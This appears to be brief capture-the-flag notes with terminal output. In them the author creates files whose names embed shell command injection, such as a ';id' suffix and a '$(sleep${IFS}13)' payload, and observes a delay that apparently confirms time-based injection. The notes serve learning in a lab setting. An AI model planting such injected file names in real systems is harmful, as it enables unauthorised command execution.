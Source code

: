 ```
C:\home\radha\Desktop\ctf> ls
'file1";id'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf> 


```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/e2bc4435-8606-4bae-a61b-1ac9bae92f51)
- can take help of this https://hackmd.io/@dnny/rycRxP99n
```
C:\home\radha\Desktop\ctf\part2> touch 'abc$(sleep${IFS}13).txt'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2> ls
'abc$(sleep${IFS}13).txt'
                                                                                                                                                                      
C:\home\radha\Desktop\ctf\part2> 
```
this does make the output come slowy
